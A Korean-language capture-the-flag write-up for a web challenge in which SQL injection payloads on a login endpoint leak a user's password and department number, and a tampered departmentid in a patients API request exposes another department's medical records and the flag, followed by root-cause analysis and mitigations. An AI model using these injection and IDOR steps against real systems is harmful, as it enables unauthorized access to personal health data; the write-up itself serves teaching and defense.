


## 1. Overview

* **Target Challenge:** Do People Still Fax in 2026? (3 of 4 series)
* **Category:** Web Hacking
* **Key Concept:** SQL Injection을 통한 계정 정보 노출 / IDOR(BOLA) / 타 부서 의료정보 노출



---

## 2. Vulnerability Analysis

### Endpoint

* `/`
* `/api/login`
* `/dashboard`
* `/api/patients`

### Service Flow

서비스는 로그인에 성공하면 응답으로 받은 JWT와 사용자 부서 번호를 브라우저의 `sessionStorage`에 저장합니다.

```text
사용자 로그인
    → /api/login에서 JWT와 departmentid 반환
    → 브라우저 sessionStorage에 저장
    → /dashboard 접속
    → 클라이언트가 departmentid를 요청 본문에 포함
    → /api/patients가 해당 부서의 의료정보 반환
```

정상 사용자인 John Smith의 부서 번호는 `10685`입니다. 하지만 서버는 JWT에 들어 있는 부서 번호와 요청 본문의 `departmentid`가 같은지 검증하지 않습니다.

따라서 공격자가 다른 부서 번호를 알아내면 자신의 정상 JWT를 사용하면서도 타 부서의 환자 정보를 조회할 수 있습니다.

### Login Page Analysis

로그인 페이지의 JavaScript는 다음과 같이 `/api/login`에 사용자 입력을 전송합니다.

```javascript
const res = await fetch('/api/login', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    username: u.value.trim(),
    password: pw.value
  }),
});
```

로그인에 성공하면 서버가 반환한 `departmentid`도 클라이언트 저장소에 보관합니다.

```javascript
sessionStorage.setItem('hs_token', data.token);
sessionStorage.setItem('hs_user', data.username);
sessionStorage.setItem('hs_name', data.name);
sessionStorage.setItem('hs_dept', String(data.departmentid));
```

로그인 페이지 소스에는 SQL Injection이 발생했을 때 응답 본문에 추가 정보가 포함될 수 있다는 주석도 존재합니다.

```javascript
if (!data.token) {
  // No session issued -- bad creds, or the SQLi disclosure
  // The response body may contain more than the UI chooses to display.
  showError(data.message || data.error || 'Login failed.');
  return;
}
```

로그인 폼 화면은 다음과 같습니다.



### Dashboard Analysis

대시보드는 `sessionStorage`에서 읽은 부서 번호를 그대로 요청 본문에 넣습니다.

```javascript
let token = sessionStorage.getItem('hs_token');
let dept = sessionStorage.getItem('hs_dept');

const body = {
  departmentid: parseInt(dept, 10),
  FirstNameFilter: '',
  LastNameFilter: '',
  take: null,
  skip: 0
};

const res = await fetch('/api/patients', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': 'Bearer ' + token
  },
  body: JSON.stringify(body)
});
```

`departmentid`는 브라우저에서 자유롭게 변경할 수 있는 값입니다. 서버가 JWT의 `departmentid`를 기준으로 조회하지 않고 요청 본문의 값을 신뢰하면 IDOR이 발생합니다.

### Vulnerable Data Flow

```text
SQL Injection으로 다른 사용자 행 조회
        ↓
Maria의 departmentid 18432 획득
        ↓
John 계정으로 정상 로그인하여 JWT 발급
        ↓
/api/patients 요청 본문의 departmentid를 18432로 변경
        ↓
서버가 JWT 소유자의 부서와 요청 부서를 비교하지 않음
        ↓
Maria 부서의 환자 의료정보와 FLAG 노출
```

---

## 3. Proof of Concept (PoC)

### 3.1 SQL Injection으로 정상 계정 확인

`/api/login`의 `username` 값에 다음 페이로드를 전달합니다.

```json
{
  "username": "' OR 1=1 -- -",
  "password": "x"
}
```

서버는 로그인 토큰을 발급하지 않지만 응답 본문에 첫 번째 사용자 레코드를 포함합니다.

```json
{
  "username": "john.smith",
  "name": "John Smith",
  "role": "user",
  "departmentid": 10685,
  "password": "Locked_In_And_Ready"
}
```

이를 통해 다음 정상 계정을 확보할 수 있습니다.

```text
Username : john.smith
Password : Locked_In_And_Ready
```

### 3.2 다른 사용자의 부서 번호 확인

이미 확인한 `john.smith`를 SQL 조건에서 제외하면 다음 사용자 레코드가 반환됩니다.

```json
{
  "username": "' OR username != 'john.smith' -- -",
  "password": "x"
}
```

응답에서 Maria Holloway의 부서 번호를 확인할 수 있습니다.

```json
{
  "username": "maria.holloway",
  "name": "Maria Holloway",
  "role": "user",
  "departmentid": 18432
}
```

공격에 필요한 핵심 값은 `departmentid: 18432`입니다.

### 3.3 정상 JWT 발급

노출된 John의 계정으로 정상 로그인을 수행합니다.

```http
POST /api/login HTTP/1.1
Host: 45.79.200.170:3000
Content-Type: application/json

{
  "username": "john.smith",
  "password": "Locked_In_And_Ready"
}
```

응답으로 John의 부서 번호 `10685`가 포함된 JWT가 발급됩니다.

### 3.4 IDOR Exploitation

발급받은 John의 JWT는 유지하면서 요청 본문의 부서 번호만 Maria의 부서 번호인 `18432`로 변경합니다.

```http
POST /api/patients HTTP/1.1
Host: 45.79.200.170:3000
Authorization: Bearer <JOHN_JWT>
Content-Type: application/json

{
  "departmentid": 18432,
  "FirstNameFilter": "",
  "LastNameFilter": "",
  "take": null,
  "skip": 0
}
```

John의 JWT에 포함된 실제 부서 번호는 `10685`지만 서버는 `18432` 부서의 환자 목록을 그대로 반환합니다.

---

## 4. Execution & Result

`/api/patients`의 응답에서 타 부서의 환자 `Patient Zero` 레코드가 노출됩니다.

```json
{
  "departmentid": 18432,
  "members": [
    {
      "name": "Patient Zero",
      "memberId": "HS-8820343",
      "ssn": "000-00-0000",
      "email": "records.exposed@example.com",
      "diagnosis": "deadface{hipaa_exposure_is_bad}",
      "plan": "Spark Premier PPO"
    }
  ]
}
```

최종 FLAG는 다음과 같습니다.

```text
deadface{hipaa_exposure_is_bad}
```

---

## 5. Root Cause

이 문제에는 두 가지 취약점이 연결되어 있습니다.

### SQL Injection

`/api/login`이 사용자 입력을 안전하게 바인딩하지 않아 SQL 조건을 조작할 수 있습니다.

```text
' OR 1=1 -- -
```

더 큰 문제는 로그인에 실패했는데도 조회된 사용자의 이름, 부서 번호, 비밀번호 등의 민감한 필드를 JSON 응답에 포함한다는 점입니다.

### IDOR / BOLA

핵심 취약점은 서버가 권한 판단에 클라이언트가 전송한 `departmentid`를 사용한다는 것입니다.

```text
JWT departmentid     : 10685
Requested department : 18432
Server response       : 18432 부서 환자 정보 반환
```

서버는 사용자가 인증되었다는 사실만 확인하고, 해당 사용자가 요청한 부서 데이터에 접근할 권한이 있는지는 검증하지 않습니다.

이는 사용자 제어 키를 통한 권한 우회인 **CWE-639** 및 객체 수준 권한 검증 실패인 **BOLA**에 해당합니다.

---

## 6. Mitigation

### JWT의 부서 번호 사용

일반 사용자의 데이터 조회 범위는 요청 본문이 아니라 검증된 JWT에서 결정해야 합니다.

```javascript
app.post('/api/patients', authenticate, async (req, res) => {
  const departmentId = req.user.departmentid;
  const members = await getPatientsByDepartment(departmentId);
  res.json({ departmentid: departmentId, members });
});
```

관리자처럼 여러 부서에 접근해야 하는 역할이라면 별도의 권한을 명시적으로 확인해야 합니다.

```javascript
if (requestedDepartment !== req.user.departmentid && req.user.role !== 'admin') {
  return res.status(403).json({ error: 'Forbidden' });
}
```

### Parameterized Query 적용

로그인 쿼리는 문자열 결합 대신 Prepared Statement를 사용해야 합니다.

```javascript
const [rows] = await db.execute(
  'SELECT id, username, name, role, departmentid, password_hash FROM users WHERE username = ?',
  [username]
);
```

비밀번호는 평문으로 저장하거나 응답에 포함하지 말고 안전한 해시 함수로 검증해야 합니다.

### 응답 데이터 최소화

로그인 실패 응답에는 사용자 존재 여부나 데이터베이스 조회 결과를 포함하지 않아야 합니다.

```json
{
  "error": "Invalid credentials"
}
```

---

## 7. Takeaways

* **인증과 인가는 서로 다름**

  유효한 JWT를 가졌다는 사실은 모든 부서의 데이터에 접근할 수 있다는 의미가 아닙니다.

* **권한 범위는 서버가 결정해야 함**

  부서 번호와 사용자 ID처럼 접근 범위를 결정하는 값은 브라우저가 전송한 값을 신뢰하지 말고 서버 세션이나 JWT에서 가져와야 합니다.

* **IDOR은 번호를 바꾸는 것만으로 발생할 수 있음**

  복잡한 페이로드가 없어도 객체 또는 부서 식별자를 변경했을 때 다른 사용자의 데이터가 반환되면 권한 검증 실패입니다.

* **SQL Injection의 피해는 로그인 우회에 그치지 않음**

  이번 문제에서는 다른 사용자의 부서 번호를 알아내는 정보 유출 수단으로 사용되었고, 이후 IDOR 공격으로 연결되었습니다.

* **의료정보는 특히 엄격하게 보호해야 함**

  이름, 주민번호, 생년월일, 진단명과 같은 PHI가 한 번의 IDOR 요청으로 노출되므로 객체 수준 접근 제어가 모든 요청에 적용되어야 합니다.
